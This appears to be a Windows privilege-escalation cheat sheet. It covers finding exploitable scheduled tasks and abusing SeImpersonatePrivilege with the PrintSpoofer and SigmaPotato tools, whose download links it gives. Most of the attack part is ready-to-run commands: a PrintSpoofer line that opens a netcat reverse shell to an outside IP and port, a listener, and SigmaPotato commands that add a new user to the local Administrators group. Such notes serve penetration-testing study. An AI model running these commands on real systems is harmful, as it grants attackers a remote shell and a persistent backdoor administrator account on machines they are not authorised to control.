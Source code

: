 Privilege Escalation Vectors

```plain
As which user account (principal) does this task get executed?
What triggers are specified for the task?
What actions are executed when one or more of these triggers are met?
```

Find (Recon)

```powershell
# Find privileged user by author
Get-ScheduledTask | where { $_.Author -notmatch "^Microsoft" -and $_.Author -notmatch "^$"} | Select Author,TaskPath,TaskName
# non-powershell
schtasks /query /fo LIST /v
schtasks /query /fo LIST /v /TN \TaskPath\TaskName

# Lookup important task information
TaskName:
Author:
Run As
Task To Run:
Next Run Time:
Last Run Time:

# List permission
Get-ACL Path/To/Binary/or/Script
# non-powershell
icacls Path/To/Binary/or/Script
```

Replace (Exlpoit)

* Replace the file (like for services or DLLs)
* Trigger the task or wait for time scheduled task

## Exploit Privileges

`SeImpersonatePrivilege`:

`SeImpersonatePrivilege` might allow to leverage a token with another security context. A **user with this privilege can perform operations in the security context of another user account** under the specified circumstances. Other privileges that may lead to privilege escalation are `SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug`.

* Default Windows groups: Administrators, **LOCAL SERVICE, NETWORK SERVICE, and SERVICE** 
* Detault IIS groups: **LocalService, LocalSystem, NetworkService, or ApplicationPoolIdentity**
* Tools:
  * PrintSpoofer `https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe`
  * SigmaPotato `https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe`

```powershell
whoami /priv
..
SeImpersonatePrivilege        Impersonate a client after authentication Enabled

# Reverse Shell
# Require Print Spooler Service
# -i interactive do NOT open a new window
PrintSpoofer.exe -i -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd.exe"
nc.exe -l -p 1337

# Add User
SigmaPotato.exe "net user john password123! /add"
SigmaPotato.exe "net localgroup Administrators john /add"
```
